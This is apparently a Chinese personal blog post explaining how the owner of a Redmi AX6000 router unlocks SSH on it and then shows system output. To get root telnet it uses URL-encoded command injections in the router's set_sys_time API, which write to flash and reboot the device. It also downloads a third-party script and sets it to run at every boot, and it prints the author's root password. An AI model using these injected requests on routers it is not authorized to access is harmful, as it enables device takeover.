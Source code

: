 title: 红米路由器 AX6000 解锁 SSH
date: 2024-02-11 00:20:15
tags:
author:
---
半年前购买了红米路由器 AX6000，用起来一直非常稳定。因为最近在折腾树莓派，准备将红米路由器上开启 SSH 的功能。最早是准备将路由器刷成 [OpenWRT 系统](https://openwrt.org/toh/xiaomi/redmi_ax6000)，当一旦路由器能够开启 SSH 功能后，刷 OpenWRT 系统的必要性就不是太大了。
> 声明：本文下面操作步骤均为从网络上获取的现有操作步骤。


在电脑的浏览器上登录红米路由器的管理页面，红米路由器管理页面为：[https://miwifi.com/](https://miwifi.com/)，或者 [http://192.168.31.1/](http://192.168.31.1/)。如果本地设置过其他的 DNS 服务器，需要使用 ip 地址的形式访问。
登录后可以获取到当前红米路由器的版本，我的已经是最新的 1.0.67，该版本的固件可以支持开启 SSH 协议。
![image.png](https://kuring.oss-cn-beijing.aliyuncs.com/ax6000/ax6000-version.png)
在登录红米路由器管理页面后，查看浏览器的地址栏，`https://miwifi.com/cgi-bin/luci/;stok=5e55c58e949d5419c001bce8288e5a27/web/home#router`，可以看到参数 stok `5e55c58e949d5419c001bce8288e5a27` 即我们需要用到该值。需要注意的是参数 stok 在每次登录时均会发生改变。

用浏览器打开下面的网址，其中 stok 为上面步骤获取到的值。
```
http://192.168.31.1/cgi-bin/luci/;stok=5e55c58e949d5419c001bce8288e5a27/api/misystem/set_sys_time?timezone=%20%27%20%3B%20zz%3D%24%28dd%20if%3D%2Fdev%2Fzero%20bs%3D1%20count%3D2%202%3E%2Fdev%2Fnull%29%20%3B%20printf%20%27%A5%5A%25c%25c%27%20%24zz%20%24zz%20%7C%20mtd%20write%20-%20crash%20%3B%20
```
浏览器如果返回`{"code":0}`，说明该步骤执行成功。

在浏览器执行路由器重启操作，返回 `{"code":0}`，说明该步骤执行成功，此时路由器会发生重启。
```
http://192.168.31.1/cgi-bin/luci/;stok=5e55c58e949d5419c001bce8288e5a27/api/misystem/set_sys_time?timezone=%20%27%20%3b%20reboot%20%3b%20
```

重新登录红米路由器，获取到新的 stok 值 221bcd3ba09b3e4597b0308cc1df18a2。
在浏览器继续访问如下的地址，用来开启 telnet，成功后仍然返回 `{"code":0}`。
```
http://192.168.31.1/cgi-bin/luci/;stok=221bcd3ba09b3e4597b0308cc1df18a2/api/misystem/set_sys_time?timezone=%20%27%20%3B%20bdata%20set%20telnet_en%3D1%20%3B%20bdata%20set%20ssh_en%3D1%20%3B%20bdata%20set%20uart_en%3D1%20%3B%20bdata%20commit%20%3B%20
```

再继续执行重启命令
```
http://192.168.31.1/cgi-bin/luci/;stok=221bcd3ba09b3e4597b0308cc1df18a2/api/misystem/set_sys_time?timezone=%20%27%20%3b%20reboot%20%3b%20
```

在重启完成后，路由器的 telnet 服务已经开启。在终端中执行 `telnet 192.168.31.1` 即可远程连接到小米路由器，而且不需要密码。

在终端中执行如下的命令，用来设置 root 密码，开启并固化 ssh 服务：
```
# 修改 root 密码
echo -e 'wangss19881.\nwangss19881.' | passwd root

# 开启 ssh 服务
nvram set ssh_en=1
nvram set telnet_en=1
nvram set uart_en=1
nvram set boot_wait=on
nvram commit

sed -i 's/channel=.*/channel="debug"/g' /etc/init.d/dropbear
/etc/init.d/dropbear restart

# 设置 ssh 服务开机自启动
mkdir /data/auto_ssh
cd /data/auto_ssh
curl -O https://fastly.jsdelivr.net/gh/lemoeo/AX6S@main/auto_ssh.sh
chmod +x auto_ssh.sh
uci set firewall.auto_ssh=include
uci set firewall.auto_ssh.type='script'
uci set firewall.auto_ssh.path='/data/auto_ssh/auto_ssh.sh'
uci set firewall.auto_ssh.enabled='1'
uci commit firewall

# 设置时区
uci set system.@system[0].timezone='CST-8'
uci set system.@system[0].webtimezone='CST-8'
uci set system.@system[0].timezoneindex='2.84'
uci commit

# 关闭开发模式
mtd erase crash

reboot
```
在终端中执行 `ssh -o HostkeyAlgorithms=+ssh-rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa  root@192.168.31.1`即可 ssh 连接到路由器。

进入到系统后我们可以看到系统为基于 Linux 5.4 内核版本的 XiaoQiang 系统，至于名字为什么叫 XiaoQiang 我还不得而知。

```
root@XiaoQiang:~# uname -a
Linux XiaoQiang 5.4.150 #0 SMP Mon Jan 30 09:23:25 2023 aarch64 GNU/Linux
```

整个磁盘分区的使用情况如下：
```
root@XiaoQiang:~# df -h
Filesystem                Size      Used Available Use% Mounted on
/dev/root                15.5M     15.5M         0 100% /
tmpfs                   240.0M      9.9M    230.1M   4% /tmp
ubi1_0                   40.4M      7.6M     30.7M  20% /data
ubi1_0                   40.4M      7.6M     30.7M  20% /userdisk
/dev/root                15.5M     15.5M         0 100% /userdisk/data
ubi1_0                   40.4M      7.6M     30.7M  20% /etc/config
ubi1_0                   40.4M      7.6M     30.7M  20% /etc/datacenterconfig
ubi1_0                   40.4M      7.6M     30.7M  20% /etc/smartcontroller
ubi1_0                   40.4M      7.6M     30.7M  20% /etc/parentalctl
ubi1_0                   40.4M      7.6M     30.7M  20% /etc/smartvpn
ubi1_0                   40.4M      7.6M     30.7M  20% /etc/ppp
ubi1_0                   40.4M      7.6M     30.7M  20% /etc/crontabs
tmpfs                   512.0K     12.0K    500.0K   2% /dev
```

使用 top 命令查看整体的系统负载情况，cpu 利用率还是非常低。
```
Mem: 325692K used, 165808K free, 11208K shrd, 12652K buff, 76388K cached
CPU:  0.3% usr  1.3% sys  0.0% nic 97.8% idle  0.0% io  0.0% irq  0.4% sirq
Load average: 1.05 1.06 1.12 2/147 28107
```

# 资料
[https://www.youtube.com/watch?v=u5Qg4zqj_V0](https://www.youtube.com/watch?v=u5Qg4zqj_V0)
[https://uzbox.com/tech/openwrt/ax6000.html](https://uzbox.com/tech/openwrt/ax6000.html)
[https://github.com/kjfx/AX6000/releases/tag/RedmiAX6000](https://github.com/kjfx/AX6000/releases/tag/RedmiAX6000)